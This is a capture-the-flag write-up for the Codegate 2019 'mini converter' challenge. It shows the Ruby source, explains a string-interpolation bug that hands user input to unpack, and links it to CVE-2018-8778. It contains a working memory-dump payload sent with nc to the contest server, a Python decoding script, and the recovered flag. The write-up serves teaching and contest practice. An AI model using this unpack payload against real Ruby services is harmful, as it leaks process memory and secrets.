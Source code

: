 ```yaml
---
title: "mini converter - Codegate Quals 2019"
author: "pietroferretti"
comments: true
tags: codegate ctf mhackeroni ruby cve
---
```


>Can you read this? really???? lol

We have a small Ruby script and a TCP port to connect to.

```ruby
flag = "FLAG{******************************}"
# Can you read this? really???? lol

while true

    puts "[CONVERTER IN RUBY]"
    STDOUT.flush
    sleep(0.5)
    puts "Type something to convert\n\n"
    STDOUT.flush
    puts "[*] readme!"
    STDOUT.flush
    puts "When you want to type hex, contain '0x' at the first. e.g 0x41414a"
    STDOUT.flush
    puts "When you want to type string, just type string. e.g hello world"
    STDOUT.flush
    puts "When you want to type int, just type integer. e.g 102939"
    STDOUT.flush

    puts "type exit if you want to exit"
    STDOUT.flush

    input = gets.chomp
    puts input
    STDOUT.flush

    if input  == "exit"
        file_write()
        exit

    end

    puts "What do you want to convert?"
    STDOUT.flush

    if input[0,2] == "0x"
	    puts "hex"
        STDOUT.flush
	    puts "1. integer"
        STDOUT.flush
	    puts "2. string"
        STDOUT.flush

	    flag = 1
	
    elsif input =~/\D/
	    puts "string"
        STDOUT.flush
	    puts "1. integer"
        STDOUT.flush
	    puts "2. hex"
        STDOUT.flush

	    flag = 2
    
    else
	    puts "int"
        STDOUT.flush
	    puts "1. string"
        STDOUT.flush
	    puts "2. hex"
        STDOUT.flush

	    flag = 3
    end

    num = gets.to_i

    if flag == 1
	    if num == 1
		    puts "hex to integer"
            STDOUT.flush
            puts Integer(input)
            STDOUT.flush

    	elsif num == 2
		    puts "hex to string"
            STDOUT.flush
            tmp = []
            tmp << input[2..-1]
            puts tmp.pack("H*")
            STDOUT.flush
	    
        else
		    puts "invalid"
            STDOUT.flush
        end

    elsif flag == 2
	    if num == 1
		    puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
	
        elsif num == 2
		    puts "string to hex"
            STDOUT.flush
            puts input.unpack("H*#{input}.length")[0]
            STDOUT.flush
	
        else
		    puts "invalid2"
            STDOUT.flush
        end

    elsif flag == 3
	    if num == 1
		    puts "int to string"
            STDOUT.flush
	
        elsif num == 2
		    puts "int to hex"
            STDOUT.flush
            puts input.to_i.to_s(16)
            STDOUT.flush
	    else
		    puts "invalid3"
            STDOUT.flush
        end

    else
	    puts "invalid4"
        STDOUT.flush

    end

end
```

The Ruby script's intended functionality apparently is to convert values to strings, integers and hexadecimal.

The bug is easily identifiable in the following lines:

```ruby
            puts input.unpack("C*#{input}.length")
[...]
            puts input.unpack("H*#{input}.length")[0]
```

In Ruby, `#{something}` is a template, which will be replaced by the value of `something`. 

Looks like the correct way to write those lines should have been with `length` inside the curly braces, to make it evaluate as the length of `input`. As it is now, `unpack` takes `input` itself as argument.

By itself unpack isn't insecure, but a quick Google search for "ruby unpack vulnerabilities" immediately gives a good candidate for exploitation:
[https://www.ruby-lang.org/en/news/2018/03/28/buffer-under-read-unpack-cve-2018-8778/](https://www.ruby-lang.org/en/news/2018/03/28/buffer-under-read-unpack-cve-2018-8778/)

On not so recent versions of ruby, passing big numbers as argument to unpack makes it possible to dump the memory of the program due to a wrong signed/unsigned conversion. This will probably let us retrieve the initial value of flag, even if the reference was overwritten.

### Dumping memory

```
$ (python -c "import sys; sys.stdout.write('@18446744073708351616C1200000\n1\n')"; cat -) | nc 110.10.147.105 12137 > dump.txt
```

### Converting the output to characters
The script outputs the result as single integers and floats. We can quickly convert those to actual characters.

```python
#!/usr/bin/env python2
import string
with open('dump.txt') as f:
    s = f.read()
out = ''
for line in s.split('\n'):
    try:
        c = chr(int(line))
        if c in string.printable:
            out += c
    except ValueError:
        continue
with open('dump2.txt', 'w') as g:
    g.write(out)
```

### Finding the flag
The last step is easy, we know the flag format.

```
$ cat dump2.txt | grep -i "FLAG{.*}"
FLAG{Run away with me.It'll be the way you want it}
```

